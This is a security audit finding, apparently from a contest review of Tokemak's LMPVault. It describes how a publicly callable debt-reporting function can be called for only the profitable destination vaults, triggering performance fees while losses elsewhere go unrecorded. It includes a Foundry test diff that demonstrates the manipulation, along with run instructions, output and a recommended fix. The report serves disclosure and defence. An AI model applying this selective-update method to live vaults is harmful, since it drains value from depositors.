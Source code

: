 Nice Maroon Frog

medium

# Destination vault debt can be selectively updated to collect fees on "profits" while ignoring the losses from other destination vaults
## Summary

The `LMPVault.updateDebtReporting` function allows anyone to selectively update the debt of destination vaults, leading to a (temporarily) incomplete `totalDebt` (and `totalIdle`) value. This results in the collection of protocol fees, even though the `LMPVault` potentially has not made any profit, leading to a loss for the users (depositors) of the `LMPVault`.

## Vulnerability Detail

Protocol fees are collected on the `LMPVault`'s profits generated by its destination vaults. The profits are calculated based on the idle funds (`totalIdle`) and the total debt (`totalDebt`). The `totalDebt` and `totalIdle` values are updated whenever destination vaults are rebalanced or by manually calling the `updateDebtReporting` function. This function is publicly callable by anyone and expects an array of destination vaults to update the debt reporting.

As the caller can arbitrarily select which destination vaults to update the debt reporting for ([the vaults have to be valid](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L762-L764)), the caller can purposefully and selectively update the debt reporting for destination vaults that have generated profits, while ignoring the losses from other destination vaults.

This will result in the collection of protocol fees, as it seems that the `LMPVault` made a profit. However, the destination vaults with losses are ignored and not accounted for in the `totalDebt`. Consequently, fees are collected even though the `LMPVault` potentially has not made any profit, leading to a loss for the users (depositors) of the `LMPVault`.

The following test case demonstrates how destination vaults can be purposefully and selectively updated to collect fees on "profits" while ignoring the losses from the other destination vaults:

<details>
  <summary><strong>Test case (click to reveal)</strong></summary>

```diff
diff --git a/v2-core-audit-2023-07-14/test/vault/LMPVault-Withdraw.t.sol b/v2-core-audit-2023-07-14/test/vault/LMPVault-Withdraw.t.sol
index 47b238e..f2d06b9 100644
--- a/v2-core-audit-2023-07-14/test/vault/LMPVault-Withdraw.t.sol
+++ b/v2-core-audit-2023-07-14/test/vault/LMPVault-Withdraw.t.sol
@@ -1047,6 +1047,77 @@ contract LMPVaultMintingTests is Test {
         assertEq(balAfter - balBefore, 900, "actual");
     }

+    function test_IncompleteUpdateDebtReporting() public {
+        _accessController.grantRole(Roles.SOLVER_ROLE, address(this));
+        _accessController.grantRole(Roles.LMP_FEE_SETTER_ROLE, address(this));
+
+        // Configure our fees and where they will go
+        address feeSink = vm.addr(1000);
+        _lmpVault.setFeeSink(feeSink);
+        vm.label(feeSink, "feeSink");
+        _lmpVault.setPerformanceFeeBps(1000); // 10%
+
+        // User is going to deposit 1000e18 assets
+        _asset.mint(address(this), 1000e18);
+        _asset.approve(address(_lmpVault), 1000e18);
+        _lmpVault.deposit(1000e18, address(this));
+
+        // Deployed 100e18 asset to DV1
+        _underlyerOne.mint(address(this), 100e18);
+        _underlyerOne.approve(address(_lmpVault), 100e18);
+        _lmpVault.rebalance(
+            address(_destVaultOne),
+            address(_underlyerOne), // tokenIn
+            100e18,
+            address(0), // destinationOut, none when sending out baseAsset
+            address(_asset), // baseAsset, tokenOut
+            200e18
+        );
+
+        // Deploy 800e18 asset to DV2
+        _underlyerTwo.mint(address(this), 800e18);
+        _underlyerTwo.approve(address(_lmpVault), 800e18);
+        _lmpVault.rebalance(
+            address(_destVaultTwo),
+            address(_underlyerTwo), // tokenIn
+            800e18,
+            address(0), // destinationOut, none when sending out baseAsset
+            address(_asset), // baseAsset, tokenOut
+            800e18
+        );
+
+        // Price of DV1 increased by 200% (was worth 2 ETH before)
+        _mockRootPrice(address(_underlyerOne), 4e18);
+
+        // Price of DV2 dropped by 25% (was worth 1 ETH before)
+        _mockRootPrice(address(_underlyerTwo), 7.5e17);
+
+        address[] memory destinationVaults = new address[](1);
+        destinationVaults[0] = address(_destVaultOne);
+
+        uint256 feeSinkBeforeBal = _lmpVault.balanceOf(feeSink);
+
+        /**
+         * Update only DV1
+         */
+        _lmpVault.updateDebtReporting(destinationVaults);
+
+        assertGt(_lmpVault.balanceOf(feeSink) - feeSinkBeforeBal, 0); // fees are collected
+        assertEq(_lmpVault.navPerShareHighMark(), 10_000 + 2_000); // increase
+
+        /**
+         * Now update DV2
+         */
+        destinationVaults[0] = address(_destVaultTwo);
+
+        uint256 feeSinkBeforeBal2 = _lmpVault.balanceOf(feeSink);
+
+        _lmpVault.updateDebtReporting(destinationVaults);
+
+        assertEq(_lmpVault.balanceOf(feeSink) - feeSinkBeforeBal2, 0); // no fees are collected
+        assertEq(_lmpVault.navPerShareHighMark(), 10_000 + 2_000); // remains unchanged
+    }
+
     function test_redeem_RevertIf_Paused() public {
         _asset.mint(address(this), 1000);
         _asset.approve(address(_lmpVault), 1000);

```

**How to run this test case:**

Save git diff to a file named `test.patch` and run with

```bash
git apply test.patch
forge test --match-test "test_IncompleteUpdateDebtReporting"
```

Result:

```bash
Running 1 test for test/vault/LMPVault-Withdraw.t.sol:LMPVaultMintingTests
[PASS] test_IncompleteUpdateDebtReporting() (gas: 1258076)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.91ms
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

</details>

## Impact

Protocol fees are collected on a potentially incorrect and incomplete `totalDebt` (and `totalIdle`) value, leading to a loss for the users (depositors) of the `LMPVault`. This issue can be exploited by anyone who wants to cause a loss for the users of the `LMPVault`.

## Code Snippet

[src/vault/LMPVault.updateDebtReporting](https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVault.sol#L628-L630)

Anyone can call the `updateDebtReporting` function and selectively update the debt reporting for the given `_destinations` vaults.

```solidity
628: function updateDebtReporting(address[] calldata _destinations) external nonReentrant trackNavOps {
629:     _updateDebtReporting(_destinations);
630: }
```

## Tool used

Manual Review

## Recommendation

Consider updating the debt reporting for all destination vaults in one go, instead of selectively updating them one by one and then collecting fees.
